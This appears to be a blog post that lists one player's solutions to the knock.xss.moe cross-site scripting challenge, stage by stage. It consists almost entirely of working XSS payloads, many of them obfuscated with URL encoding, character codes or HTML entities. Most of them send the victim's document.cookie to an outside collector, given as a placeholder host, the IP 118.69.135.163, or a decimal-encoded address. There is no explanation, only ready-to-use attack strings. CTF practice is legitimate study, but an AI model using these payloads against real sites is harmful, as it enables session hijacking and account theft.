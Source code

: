 ```yaml
---
layout : post
title : knock.xss.moe
---
```

All solution
Ranking #41
{% highlight html linenos %}
stage3:
http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=%22%3E%3Cscript%20language%3D%22JavaScript%22%3Edocument.location%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%27%2bdocument.cookie%3B%3C%2fscript%3E

stage5:
</textarea><script>alert('xxx')</script>

stage6:
</xmp><script>alert('xxx')</script>

stage7:
http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=%22%20onfocus%3D%22%20location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%22%20autofocus%3D%22

stage8

stage9:
http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=%00%00%20autofocus%20onfocus%3Dlocation.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie


stage10:
http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=javascript:document.location.href='http://xxx/get_cookie.php?cookie'+document.cookie

stage11:
<iframe src="XSS"></iframe>
http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=javascript%3Adocument.location.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%22%2bdocument.cookie%3B

stage12:

javascript:window.open(`http://xxxx/?x=`+document.cookie)


stage13:
<script language=javascript>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 46, 104, 114, 101, 102, 61, 39, 104, 116, 116, 112, 58, 47, 47, 103, 111, 111, 103, 108, 101, 46, 99, 111, 109, 39 ))</script>


stage 14:
http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?document.domain=%22knock.xss.moe%22;eval(String.fromCharCode(119,%20105,%20110,%20100,%20111,%20119,%2046,%20111,%20112,%20101,%20110,%2040,%2034,%20104,%20116,%20116,%20112,%2058,%2047,%2047,%2049,%2049,%2056,%2046,%2054,%2057,%2046,%2049,%2051,%2053,%2046,%2049,%2054,%2051,%2047,%20103,%20101,%20116,%2095,%2099,%20111,%20111,%20107,%20105,%20101,%2046,%20112,%20104,%20112,%2063,%2099,%20111,%20111,%20107,%20105,%20101,%2061,%2034,%2043,%20112,%2097,%20114,%20101,%20110,%20116,%2046,%20100,%20111,%2099,%20117,%20109,%20101,%20110,%20116,%2046,%2099,%20111,%20111,%20107,%20105,%20101,%2041))

stage 15:
http://e3bcee011cad77ba066ca7c2ad2884372aec9566.knock.xss.moe/?q=%3Cimg%20src%3D1%20onerror%3Dwindow.location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3B%3E


stage 17:
http://34a131df991487bf58d3df0a85e247d396fb93a0.knock.xss.moe/?q=javascript%3Alocation.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%22%2bdocument.cookie


stage 19:
<body onload="alert('XXX, &#039; ,0,window.open(&#039;http://xxx/get_cookie.php?cookie&#039; document.cookie));"//')">
http://224d0c5677307d743ba90c8f81e42f5be648cd97.knock.xss.moe/?q=1%27%2C0%2Cwindow.open%28%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%29%29%3B%2f%2f


stage 21:
X-XSS-Protection:1; mode=block
http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=%3CscripT%3Edocument.locascripttion.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3C%2fsCripT%3E


stage 22:
http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f1984268195%2f%3Fx%3D%22%2bdocument.cookie%29%3E


Local file:
<script>
window.name = "location.href='http://xxxx/?'+document.cookie";
location.href = "http://target.knock.xss.moe/?q=%3Csvg/onload=eval(name)%3E";
</script>

stage 23 & 24:
http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=<svg/onload=window.open("//118.69.135.163")>

stage 25:
http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/?q=%3Ciframe%20src%3D%27%2f%2f118.69.135.163%27%3E

stage 26:
http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/?q=%3CIMG%20SRC%3D1%20onerror%3D%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23111%3B%26%23112%3B%26%23101%3B%26%23110%3B%26%2340%3B%26%2334%3B%26%2347%3B%26%2347%3B%26%2349%3B%26%2349%3B%26%2356%3B%26%2346%3B%26%2354%3B%26%2357%3B%26%2346%3B%26%2349%3B%26%2351%3B%26%2353%3B%26%2346%3B%26%2349%3B%26%2354%3B%26%2351%3B%26%2347%3B%26%23103%3B%26%23101%3B%26%23116%3B%26%2395%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2346%3B%26%23112%3B%26%23104%3B%26%23112%3B%26%2363%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2334%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2341%3B%3E



stage 27:
http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%27location%27%5D%3D%22http%3A%2f%2f%2f1984268195%2f%3F%22%2bdocument%5B%27cookie%27%5D%3

stage 28:
http://02f6f47ddaa7b22137a74843f2c4f1ac915dda3b.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D%3E

stage 29:
http://a4bf8393a4159b94aa4b84e9a134d5e6140f3c34.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D


stage 30:

http://ebf510ac2d79576cd5b7d45412eaf3eed1781bd0.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D

stage 31:
http://bb84607f02113a22396438c9a67e4c5abdfd6561.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 32:
http://859c559a54a1e9b761f8dae102af5edb2ab44215.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 33:
http://b236561a32729676d1ec2231e8726a0b5ee5bf57.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 34:
http://[stage34]/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

{% endhighlight %}

Thanks @ml and @tsu for sharing!
